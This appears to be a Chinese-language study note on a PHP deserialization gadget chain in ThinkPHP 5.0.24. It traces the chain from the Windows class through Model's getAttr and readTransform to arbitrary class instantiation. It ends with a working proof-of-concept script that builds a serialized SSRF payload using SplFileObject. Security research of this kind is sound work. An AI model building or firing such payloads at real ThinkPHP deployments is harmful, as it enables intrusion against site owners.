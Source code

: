 # ThinkPHP 5.0反序列化利用链学习
---

## 安装环境
下面2个都要下载
[framework v5.0.24](https://github.com/top-think/framework/tree/v5.0.24)
[think v5.0.24](https://github.com/top-think/think/tree/v5.0.24)
并且将`framework`下载好后的`framework-5.0.24`改名为为`thinkphp`放到`think-5.0.24`文件夹中
这里直接在sublime中运行`/public/index.php`文件调试



## 利用链
入口还是利用`Windows`类触发`__toString()`
只不过没有`Conversion.php`，这里找到`thinkphp/library/think/Model.php`
![](./pics5.0/1.png)
![](./pics5.0/2.png)
![](./pics5.0/4.png)
有`$relation->append($name)`，`$relation`由`$relation = $this->getAttr($key);`而来
和5.1类似，`getAttr()`由`getData()`而来，`getData()`返回值又可控
![](./pics5.0/5.png)
![](./pics5.0/6.png)
<s>这里又和5.1后面类似了，还是存在`think/Request.php`</s>...
![](./pics5.0/7.png)
发现这里`hook`竟然变成了`静态属性`：归类管理，不属于某个对象，所以无法使用对象直接访问静态属性。类的内部可以使用 self。且不可序列化。
![](./pics5.0/8.png)
也就不可控了
<!--
随便找个`__call()`来用，这里我找到`thinkphp/library/think/view/driver/Think.php`
![](./pics5.0/9.png)
`$method`不可控,`append`方法无法利用
好的，这里我们路走死了🤦‍♀️
-->
换个思路,回到`Model.php`的`getAttr()`，看到
![](./pics5.0/10.png)
`$type[$name]`，`$value`也可控
跟到`readTransform()`方法，也就是传入的`$value`,`$type`可控
![](./pics5.0/11.png)
![](./pics5.0/12.png)
可以实例化任意类，且参数可控
找找`__construct()`，暂时未找到进一步可利用点,tcl
<!--
好的，路又死了
`thinkphp/library/think/cache/driver/File.php` 可以创建任意目录
`thinkphp/library/think/cache/driver/Sqlite.php` 创建SQLite数据库
 
 
 
实例化类找调用 __call()的 例如thinkphp/library/think/view/driver/Php.php
的display可触发eval，找display()

`class Command{}`的`run()`
`namespace think\view\driver; Think ` 的 `__call()`可以变相控方法名？

`class Template` new任意无参数类
找`call_user_func_array(`?
-->
有个可造成SSRF的原生类:`new \SplFileObject("http://0:2333/");`(记得要在前面加`\`过if条件判断)




## POC
### 实例化任意类测试(SSRF)
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think{
    class Model{
        protected $data = ["c014"=>"http://0:2333"];
        protected $type = ["c014"=>"\SplFileObject"];
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}


namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```
